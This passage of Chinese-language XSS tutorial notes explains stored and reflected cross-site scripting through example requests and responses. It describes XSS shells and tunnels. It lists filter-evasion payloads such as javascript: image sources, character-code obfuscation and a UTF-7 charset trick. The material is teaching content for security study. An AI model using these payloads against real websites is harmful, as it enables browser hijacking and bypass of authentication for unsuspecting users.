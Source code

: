 1. 攻击者向服务器上传：
```
GET /VulnerablePage.jsp?p1=<script>evil();</script>
```

2. 受害人的请求：
```
GET /VulnerablePage.jsp
```

3. 但她/他得到的：
```
<html><body>(...)evil();</script></body></html>
```

### 反映负载

1. 受害者点击了一些恶意链接：
```
<a href="http://website.com/Vuln.jsp?p1=%3cscript%3eevil();%3c/script%3e">Click here!</a>
```
2. 受害者的GET请求：
```
GET /Vuln.jsp?p1=<script>evil();</script>
```
3. 返回的内容：
```
<html><body>(...)<script>evil();</script>(..)
```


### XSS壳（Shell） & XSS隧道（Tunnel）

* XSS后门允许攻击者通过发送命令来控制受害者的浏览器。
* 攻击者请求通过XSS壳代理来模仿受害者执行请求。
* 允许攻击者绕过IP限制和所有形式的身份验证。

### XSS识别和开发技术

* 反映:选择你的有效载荷，模糊，观察反应。(XSS过滤器逃避欺骗名单) [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).
* 持久性:包括一个惟一的字符串和grep响应。
* DOM:分析JavaScript对受用户影响的对象:
	- document.URL
	- document.write
* 绕过脆弱的应用程序过滤器和输出编码:尝试不同的变体:

```
<IMG SRC=javascript:alert('XSS')>// no"or;
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>//no'
```
* 编码攻击字符串: URL, UTF-8, UTF-7
* 欺骗浏览器使用替代字符集(编码一致性的必要性):
```
<?php
header('Content-Type: text/html; charset=UTF-7');
$string = "<script>alert('XSS');</script>";
$string = mb_convert_encoding($string, 'UTF-7');
echo htmlentities($string);
?>
```
